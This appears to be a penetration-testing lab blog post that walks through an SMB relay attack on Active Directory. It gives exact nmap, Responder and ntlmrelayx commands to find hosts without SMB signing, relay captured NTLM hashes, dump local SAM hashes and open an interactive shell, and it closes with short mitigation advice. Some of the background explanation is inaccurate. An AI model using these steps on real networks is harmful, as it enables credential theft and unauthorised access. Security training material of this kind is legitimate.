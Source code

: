 ```yaml
---
title: "SMB Relay Attack "
layout: post
category: Active-Directory
tags: [SMB]
excerpt: " "
---
```


# SMB Relay Overview 

A SMB relay attack is where an attacker captures a users NTLM hash and relays its to another machine on the network. Masquerading as the user and authenticating against SMB to gain shell or file access

## **How does an SMB Relay Attack Happen?**  
The SMB Relay attack abuses the NTLM challenge-response protocol. Commonly, all SMB  sessions used the NTML protocol for encryption and authentication purposes (i.e. NTLM  over SMB) . However, most sysadmins switched to KILE over SMB after research proved that the first version of NTLM is susceptible to Man-in-the-Middle attacks, the SMB Relay attack counting among them.  
Now, in normal client-server communication, there are a series of requests followed by  responses. **The idea behind an SMB Relay attack is to position yourself between the client and the server in order to capture the data packets transmitted between the two entities.**  

## **Attack steps**  
- **Step 1** : Scanning the network. A tool like NMAP is used to scan out the network for shares and IP addresses. Alternatively, you can use Metasploit to quickly map out network shares. Kind of useless if you don’t know the target’s credentials, but still a great go-to solution.  Now, if you feel lucky, you can also use Windows’ Explorer to discover network shares. This only works only if the hosts have enabled the access-based enumeration features.  

- **Step 2** : Using Metasploit or a similar tool, to conduct the attack. Remember that the purpose of this endeavor is to capture and ‘listen’ to enough auth packets in order to trick the server into believing that the attacker is actually the user.  


- **Step 3**:  If the server’s running NTLM version 2.0, you would need to approach this   differently, and that way would be the Impacket (i.e. collection of network protocols).  

- **Step 4**: The payload’s created with msfvenom. After that, we can use Metasploit to commence the Meterpreter session. Be warned – your payload is doomed to fail if the  target machine doesn’t have administrator rights to the duped server.
  
- **Step 5**:  Once the payload’s delivered, you would have gained access to the shell. That’s it  You’re in and can do whatever you want (or not).  Instead of cracking hashes gathered with Responder, we can instead relay those hashes  to specific machines and potentially gain access  

## **Requirements**  
-  SMB signing must be disabled on the target  
-  Relayed user credentials must be admin on machine



#  SMB Relay Attack 
1. **Discovering Hosts with SMB Signing Disabled**

```bash
sudo nmap -p445,139 --script=smb2-security-mode.nse -T4 192.168.1.0/24
```

![Desktop View](/assets/img/AD_Lab/1 (67).png){: }


**add ip of disable smb to target.txt

2. **Configuring Responder**
Because we have to relay the hash instead of just capturing it responder needs to have both the SMB server turned off and HTTP turned off. Edit the responder config file in **/etc/responder/Responder.conf** and turn off SMB and HTTP and then start responder 

![Desktop View](/assets/img/AD_Lab/1 (68).png){: }

**Run responder** 

```bash 
sudo responder -I eth0 -rdw -v
```

Responder should now look like this:

![Desktop View](/assets/img/AD_Lab/1 (69).png){: }

3. **Setup the relay script**

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support
```

![Desktop View](/assets/img/AD_Lab/1 (70).png){: }

4. **Capturing the hash, relaying it and dumping the local SAM file**

Request a share that does not exist using an admin account. Notice how the script checks if Remote Registry is enabled and if not, enables it, dumps the SAM and then re-disables it.

![Desktop View](/assets/img/AD_Lab/1 (71).png){: }

**We can then takes these hashes and crack them or we can even attempt a pass-the-hash attack and attempt to gain a shell with the NTLMv2 hash on a different machine on the network.**

5. Interactive Shell

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support -i
```

![Desktop View](/assets/img/AD_Lab/1 (72).png){: }

- run nc for localhost and  port

```bash
nc 127.0.0.1 11001

-> help
```

![Desktop View](/assets/img/AD_Lab/1 (73).png){: }

```bash
shares # will see all file share
ls # list all file
```

![Desktop View](/assets/img/AD_Lab/1 (74).png){: }


# SMB Relay Attack Mitigation
-  Enable SMB Signing on all devices. This can be done via Group Policy
-  Disable NTLM authentication on the network. Use Kerberos instead.
-  Limit Domain Admins to specific task


